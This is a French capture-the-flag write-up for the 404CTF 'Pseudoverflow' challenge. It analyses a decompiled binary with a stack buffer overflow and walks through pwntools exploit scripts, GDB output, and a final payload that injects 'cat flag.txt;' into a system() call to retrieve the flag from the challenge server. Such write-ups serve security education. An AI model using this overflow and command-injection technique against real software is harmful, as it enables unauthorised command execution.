 # Pseudoverflow

## Sujet

```md
Course annuelle

Bienvenue à tous dans la course annuelle du 404CTF : les inscriptions sont ouvertes !! Votre pseudo sera-t-il à la hauteur de nos attentes ?

Objectif: lire le fichier flag.txt
 
Auteur: @Narcisse
```

[Cet exécutable](./course) est fournit, ainsi que l'adresse et port sur lesquels le service à exploit tourne.

# Analyse statique

À l'aide de Ghidra on obtient ces deux fonctions :

```C
undefined8 main(void)

{
  int iVar1;
  char local_78 [106];
  undefined4 local_e;
  undefined2 local_a;
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  local_e = 0x64726570;
  local_a = 0x73;
  puts(&DAT_00102008);
  fgets(local_78,0x100,stdin);
  iVar1 = strcmp((char *)&local_e,"gagne");
  if (iVar1 == 0) {
    win(local_78);
  }
  else {
    puts("Nous vous recontacterons dans les prochaines semaines.");
  }
  return 0;
}
```

```C
void win(char *param_1)

{
  system(param_1);
  return;
}
```

La fonction `fgets` dans main étant vulnérable à un buffer overflow, on va exploiter cette vulnérabilité pour modifier la variable `local_e` afin de passer la condition suivante et atteindre la fonction `win` :

```C
  iVar1 = strcmp((char *)&local_e,"gagne");
  if (iVar1 == 0) {
    win(local_78);
  }
```

Nous devrons ensuite utiliser l'appel system dans la fonctonion `win` pour ouvrir le fichier `flag.txt`.
Nous n'avons pas besoin d'analyse dynamique, passons directement à l'exploit.

# Analyse dynamique 

D'après l'analyse statique, la variable `local_78` utilisé en tant que buffer est de 106 bytes, et la variable `local_e` qui doit contenir `gagne` est stocké juste après dans la stack. Tentons de la modifier avec ce script :

```python
from pwn import *

offset = 106

payload = b"".join([
    b"\x41"*offset,
    b"gagne",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...") # Pour ouvrir le process sous GDB
p.send(payload)
p.interactive()
```

```console
$ python3 exploit.py          
[+] Starting local process './course': pid 6204
Waiting for debugger...
[*] Switching to interactive mode
[*] Process './course' stopped with exit code 0 (pid 6204)
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
Nous vous recontacterons dans les prochaines semaines.
[*] Got EOF while reading in interactive
$ 
```

Le code ne semble pas atteindre la fonction `win`. Allons voir sous GDB ce qu'il se passe :

```gdb
───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x5621850ac22e <main+009a>      lea    rdx, [rip+0xe3c]        # 0x5621850ad071
   0x5621850ac235 <main+00a1>      mov    rsi, rdx
   0x5621850ac238 <main+00a4>      mov    rdi, rax
 → 0x5621850ac23b <main+00a7>      call   0x5621850ac060 <strcmp@plt>
   ↳  0x5621850ac060 <strcmp@plt+0000> jmp    QWORD PTR [rip+0x2fb2]        # 0x5621850af018 <strcmp@got.plt>
      0x5621850ac066 <strcmp@plt+0006> push   0x3
      0x5621850ac06b <strcmp@plt+000b> jmp    0x5621850ac020
      0x5621850ac070 <setvbuf@plt+0000> jmp    QWORD PTR [rip+0x2faa]        # 0x5621850af020 <setvbuf@got.plt>
      0x5621850ac076 <setvbuf@plt+0006> push   0x4
      0x5621850ac07b <setvbuf@plt+000b> jmp    0x5621850ac020
───────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
strcmp@plt (
   $rdi = 0x00007ffe9bb8445a → 0x00000a656e676167 ("gagne\n"?),
   $rsi = 0x00005621850ad071 → 0x4e0000656e676167 ("gagne"?),
   $rdx = 0x00005621850ad071 → 0x4e0000656e676167 ("gagne"?)
)
```

La variable `local_e` contient le charactère "\n". Rajoutons un null byte pour signaler la fin du string :

```python
from pwn import *

offset = 106

payload = b"".join([
    b"\x41"*offset,
    b"gagne\x00",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...")
p.send(payload)
p.interactive()
```

```console
$ python3 exploit.py
[+] Starting local process './course': pid 6241
Waiting for debugger...
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
[*] Process './course' stopped with exit code 0 (pid 6241)
sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgagne: not found
[*] Got EOF while reading in interactive
$
```

Nous exécutons effectivement du code : nous avons atteint la fonction `win`. Tentons de contrôler le code exécuté.
D'après l'analyse statique, la fonction `win` exécute le string passé en argument :

```C
void win(char *param_1)

{
  system(param_1);
```

Et la fonction main passe la variable `local_78` (utilisé en tant que buffer) à la fonction `win` :

```C
win(local_78);
```

Injectons le code à exécuter dans la variable `local_78` :

```python
from pwn import *

offset = 106
cat = b"cat flag.txt;"

payload = b"".join([
    cat,
    b"\x00"*(offset-len(cat)),
    b"gagne\x00",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...")
p.send(payload)
p.interactive()
```

```console
$ echo flagIsHere > flag.txt

$ python3 exploit.py
[+] Starting local process './course': pid 6342
Waiting for debugger...
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
flagIsHere
[*] Got EOF while reading in interactive
$ 
[*] Process './course' stopped with exit code 0 (pid 6342)
```

On a bien ouvert le fichier voulu. Essayons maintenant d'exploit le service mis en ligne.

# Exploit

Nous allons envoyer le payload avec [ce script](./exploit.py) :

```console
$ python3 exploit.py
[+] Opening connection to challenges.404ctf.fr on port 31958: Done
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
404CTF{0v3rfl0w}[*] Got EOF while reading in interactive
$ 
[*] Closed connection to challenges.404ctf.fr port 31958
```

On obtient bien le flag : `404CTF{0v3rfl0w}`.
